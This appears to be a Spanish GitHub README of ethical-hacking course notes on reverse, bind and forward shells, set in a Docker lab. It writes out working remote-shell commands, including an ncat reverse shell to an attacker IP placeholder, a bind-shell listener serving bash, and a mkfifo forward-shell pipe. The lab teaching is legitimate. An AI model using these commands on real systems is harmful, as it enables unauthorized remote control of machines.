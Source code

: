 # Reverse-shell-bind-shell-forward-shell
Estos son apuntes del curso de savit4ar a introducción al hacking ético

![image](https://github.com/JJoosh/Reverse-shell-bind-shell-forward-shell/assets/122099216/285bb568-22f7-41b2-a617-39407ebd8e37)

## PRACTICA 

**Creamos un archivo Dockerfile y le colocamos lo siguiente:**

```bash
# Usa la imagen base de Ubuntu
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

# Actualiza los repositorios e instala las herramientas
RUN apt-get update && apt-get install -y nano net-tools wget iptables apache2 php

# Exponer el puerto 80
EXPOSE 80
```


Configurar nuestro DockerFile

```bash
sudo docker build -t reverse_shell .
sudo docker run -dit -p 80:80 --cap-add=NET_ADMIN --name Mycontainer reverse_shell
sudo docker exec -it Mycontainer /bin/bash
```

Para la reverse shell solo necesitamos ejecutar una bash con nc (netcat) para que luego en nuestro equipo me ponga en escucha ya que en la reverse shell la maquina victima se conecta a mi maquina

```bash 
ncat -e /bin/bash <MyIP> <puerto>
```
    

en mi maquina se coloca lo siguiente 
``` bash
nc -nlvp 443 
```

Ahora para la bind shell seria en la maquina victima tendria que poner 
que estoy en escucha ofreciendo una bash 
```bash
ncat -nlvp 443 -e /bin/bash
```

y en mi maquina me conecto a la ip de la maquina victima que esta ofreciendo 
la bash seria:

``` bash
nc <ip_victima>
```


Supongamos que hemos subido nuestro archivo php a la pagina y que por medio de ese archivo yo mandare un bash en teoria me deberia dejar, ahora probemos unos parametros de iptables para que no permita ninguna conexión de entrada, mas que el puerto que especificamos para eso he hecho un script en bash lo pueden descargar en mi github [Mi repositorio de GitHub](https://github.com/JJoosh/iptablesauto.git).
Una vez ya configurado intentamos y vemos que no nos deja es aquí donde entra las forward shell donde jugamos con mkfifo, que crea un archivo FIFO (named pipe)  que se utiliza como una especie de “consola simulada” interactiva a través de la cual  el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa  el atacante redirige el tráfico a través del archivo FIFO, lo que permite la comunicación bidireccional con la máquina remota. 

El Hacker savit4r nos ha facilitado todo esto que les  menciono ha hecho un script que automatice esto

[Repositorio de savit4r](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)

Pero entendamos un poco como funciona para ello coloquemos este comando en nuestra terminal 

``` bash
 mkfifo input; tail -f input | /bin/bash 2>&1 > output
```

1. **mkfifo input:** Este comando crea un archivo especial conocido como FIFO (First In, First Out) llamado "input" en el directorio actual. Un FIFO es una tubería sin nombre que permite la comunicación entre procesos.
2. **tail -f input: **Este comando inicia el seguimiento del archivo "input" recién creado utilizando el comando tail. La opción -f significa "seguimiento continuo", lo que hace que tail permanezca en ejecución y muestre las nuevas líneas agregadas al archivo en tiempo real.
3. **|**: Este símbolo se utiliza para redireccionar la salida estándar de un comando hacia la entrada estándar de otro comando. En este caso, está redirigiendo la salida del comando tail al siguiente comando.
4. **/bin/bash 2>&1 > output**: Este comando inicia una nueva instancia de la shell Bash. Aquí, 2>&1 redirige la salida de error estándar (stderr) al mismo lugar que la salida estándar (stdout). Luego, > redirige la salida estándar de la shell Bash al archivo llamado "output".

Entonces, en resumen, el comando crea un FIFO llamado "input", luego inicia un proceso que lee continuamente de ese FIFO (tail -f input), y las líneas leídas son enviadas a una instancia de la shell Bash que está ejecutándose. Cualquier salida (tanto estándar como de error) generada por la shell Bash se redirige al archivo "output". Esto puede ser utilizado para capturar la salida de comandos ejecutados en la shell Bash en tiempo real.


